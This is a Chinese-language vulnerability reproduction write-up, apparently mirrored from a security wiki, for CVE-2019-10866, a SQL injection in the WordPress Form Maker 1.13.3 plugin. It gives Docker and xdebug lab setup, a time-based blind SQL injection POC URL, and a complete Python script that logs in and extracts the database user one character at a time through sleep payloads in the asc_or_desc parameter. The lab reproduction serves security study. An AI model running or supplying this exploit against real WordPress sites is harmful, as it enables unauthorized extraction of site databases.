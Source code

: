 # （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql 注入

> 原文：[http://book.iwonder.run/0day/Wordpress/21.html](http://book.iwonder.run/0day/Wordpress/21.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 环境搭建

运行环境很简单，只是在 vulapps 的基础环境的上加了 xdebug 调试插件，把 docker 容器作为远程服务器来进行调试。 Dockerfile 文件:

```
FROM medicean/vulapps:base_lamp_php7

RUN pecl install xdebug

COPY php.ini /etc/php/7.0/apache2/
COPY php.ini /etc/php/7.0/cli/ 
```

docker-compose 文件:

```
version: '3'
services:
  lamp-php7:
    build: .
    ports:
      - "80:80"
    volumes:
      - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
      - "/Users/mengchen/Security/Code Audit/tmp:/tmp" 
```

php.ini 中 xdebug 的配置

```
[xdebug]
zend_extension="/usr/lib/php/20151012/xdebug.so"
xdebug.remote_enable=1
xdebug.remote_host=10.254.254.254
xdebug.remote_port=9000
xdebug.remote_connect_back=0
xdebug.profiler_enable=0
xdebug.idekey=PHPSTORM
xdebug.remote_log="/tmp/xdebug.log" 
```

因为我是在 Mac 上，所以要给本机加一个 IP 地址，让 xdebug 能够连接

```
sudo ifconfig lo0 alias 10.254.254.254 
```

PHPStorm 也要配置好相对路径:

![image](img/1a3ae9ab02eb9d4334956d2cb93c62e0.png)

插件下载地址:

```
https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip 
```

WordPress 使用最新版就可以，在这里我使用的版本是 5.2.2，语言选的简体中文。

PS: WordPress 搭建完毕后，记得关闭自动更新。

### POC

```
http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b 
```

Python 脚本，修改自 exploit-db

```
#coding:utf-8
import requests
import time

vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
S = requests.Session()
S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
length = 0
TIME = 3
username = "admin"
password = "admin"

def login(username, password):
    data = {
        "log": "admin", 
        "pwd": "admin", 
        "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
        "redirect_to": "http://127.0.0.1/wp-admin/", 
        "testcookie": "1"
        }
    r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})

def attack():
    flag = True
    data = ""
    length = 1
    while flag:
        flag = False
        tmp_ascii = 0
        for ascii in range(32, 127):
            tmp_ascii = ascii
            start_time = time.time()
            payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
            #print(payload)
            r = S.get(payload)
            tmp = time.time() - start_time
            if tmp >= TIME:
                flag = True
                break
        if flag:
            data += chr(tmp_ascii)
            length += 1
        print(data)
login(username, password)
attack() 
```

![image](img/957e36a30b7dd07ad3d8b106774891f7.png)

